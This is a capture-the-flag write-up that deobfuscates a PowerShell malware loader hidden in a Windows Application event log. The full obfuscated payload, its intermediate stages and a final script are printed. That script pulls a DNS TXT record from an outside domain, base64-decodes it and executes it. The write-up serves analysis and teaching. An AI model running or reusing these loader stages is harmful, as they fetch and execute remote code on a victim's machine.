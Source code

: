 # Texas Chain Massacre
## Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead. Our EDR detected a rogue process reading and writing events to the Application event log. Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.The EVTX file is attached. Are you able to find anything malicious?

## Archive password: infected

A file is joined to the challenge

---


Let's download the file to begin! 

# First step

After extracting the archive we find a file named `Application Logs.evtx` which is a windows event log file.

Opening with the Windows event viewer won't help, you have to open it with your favourite text editor and scroll a bit into it. 

Finally, something caught my eye. 

```ps
!96%w)CNWindows Installer installed the product. Product Name: The Texas Chain Saw Massacre (1974). Product Version: 8.0.382.5. Product Language: English. Director: Tobe Hooper. Installation success or error status: 0.(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')7
```

Well well... 

# Deobfuscation: First step

Let's focus on the end of the file

Easy step: ``$vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')7`` is in reality just `iex` which is in powershell a command to execute code.

At first sight we see a big long string followed by `creplace()` and `-replace()`. Let's replace the char manually on those for better visibility:

- `-cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36` == `-cREpLACE ("ZT6","$")`
- `-rEPlAce'a6T',[cHAr]34` == `-rEPlAce('a6T','"')`
- `-rEPlAce  'RYc',[cHAr]124` == `-rEPlAce  ('RYc','|')`
- `-cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39)` == `-cREpLACE  ("hx6","'")`

Let's tidy the first part of the file ("windows installer blabla") and keep the rest into a variable that I will name `$BigLongString`.


```ps
$BigLongString -cREpLACE ("ZT6","$") -rEPlAce('a6T','"')  -rEPlAce  ('RYc','|') -cREpLACE  ("hx6","'")
```

## Output

```ps
0.(('. ( $ENv:CoMSpEc[4,24,'+'25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg'+'] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'+''4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'+''iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+h'+'x6l (RED'+'AeRmaertS.o'+'I'+' t'+'C''+'+'ejbO-Wh'+'x6+'En { HCaERoF'+'fKI) sSERpM'+'oCe'+hx'+'6d'+'::'+']'+'edOM'+''+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b'+'0Y'+'==wDyD4p+S'+'s/l/'+'i+5GtatJKyfNjO'+'+''3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'z'+'zU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+''+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T'+'/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+h'+'x6ugkTBFTcCPaSH0QjpFyw'+'+''aQyhx'+'6+'HtPUG'+'hx'+'6+'DL0BK3'+h'+'x6lClrHAv'+h'+'x64GOpVK'+'UN'+'mGzIDeraEvlpc'+'kC9EG'+'gIaf96jSmS''+'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31Xq'+'K'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+''+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6esh'+'x6+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsS'+'erPmo'+'c.OI.me'+'TsYS''+'+' '+' tCejbO-WE'+'n ( '(((no'+'IsseRpX'+'e-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" ) ')
```

Much better! But not enough

# Deobfuscation: Second step

The first line is... yeah... "readable" but after that I can't seem to understand one word. Looking in detail I see that it is simply reversed. The function `RightToLeft` at the end of the file confirm that. Let's put the reversed part into CyberChef (starting from `421` until `e-ekovni`)

```ps
invoke-e'+'XpRessI'+'on(((' ( n'+'EW-ObjeCt '+' '+'+''SYsT'+'em.IO.c'+'omPre'+'SsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+6x'+'hse6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+''+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'K'+'qX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'+''SmSj69faIg'+'GE9Ck'+'cplvEareDIzGm'+'NU'+'KVpOG46x'+'h+'vAHrlCl6x'+'h+'3KB0LD'+6'+'xh'+'GUPtH'+6'+'xhyQa''+'+'wyFpjQ0HSaPCcTFBTkgu6x'+'h+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/'+'T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+''+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uz'+'z'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3''+'+'OjNfyKJtatG5+i'+'/l/s'+'S+p4DyDw=='+'Y0'+'b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+''+'MOde'+']'+'::'+'d6'+'xh+'eCo'+'MpRESs )IKf'+'FoREaCH { nE'+6x'+'hW-Obje'+'+''C'+'t '+'I'+'o.StreamReA'+'DER( l6x'+'h+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii''+'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4''+'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124
```

Every step takes us to a more readable code! Let's continue.

A lot of string concatenation is in place here. Let's remove²    `'+'`.

## Output

```ps
invoke-eXpRessIon(((' ( nEW-ObjeCt  +''SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBa'+6xhse64STRing(Y0bNZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhM+''SmSj69faIgGE9CkcplvEareDIzGmNUKVpOG46xh+'vAHrlCl6xh+'3KB0LD'+6xhGUPtH'+6xhyQa'+'wyFpjQ0HSaPCcTFBTkgu6xh+'jSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433'+'OjNfyKJtatG5+i/l/sS+p4DyDw==Y0b ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::d6xh+'eCoMpRESs )IKfFoREaCH { nE'+6xhW-Obje+''Ct Io.StreamReADER( l6xh+'wk_, [sysTEM.texT.eNcOdinG]::Ascii'+' ) }).reADTOEnD( ) IKf . ( lwkenV:CoMSpec[4'+',24,25]-jOinY0bY0b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124
```

And we have replace and char again ! Let's focus on these :

- `-CRePlacE'lwk',[ChAR]36` == `-CRePlacE('lwk',"$")`
- `-CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39` == `-CRePlacE (("Y0b"),"'")`
- `-RePLACe'IKf',[ChAR]124` == `-RePLACe('IKf',"|")`

Let's put all the rest into a $string and make this cmd :

```ps
$string -CRePlacE('lwk',"$")  -CRePlacE (("Y0b"),"'")  -RePLACe('IKf',"|")
```

## Output

```ps
0.(('. ( $ENv:CoMSpEc[4,24,25]-join'')( " $(
Set-variable 'OfS' '')"+ ( [String] [regex]::matches( " ))


invoke-eXpRessIon(((' ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH    
{
 nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | iex
```

Looks like we have something here ! 

Following this the script decodes from base64, decompress and then execute. Let's change `iex` and replace it by `Write-Output` to avoid executing a malware to my computer and mostly to see the output of the script !

```ps

$decompressedContent = ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( )

$decompressedContent

```

## Output

```ps
try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; 
    if ($error.Count -eq 0) { 
        $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { 
            $_.Strings }); 
            if (
                $5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
                    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

# Final step

Let's ignore the `try catch` and the `if` condition, replace the final `Invoke-Expression` with `Write-Host` and the flag will appear!

```ps
$5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { 
            $_.Strings }); 
            if (
                $5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
                    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Write-Host }
```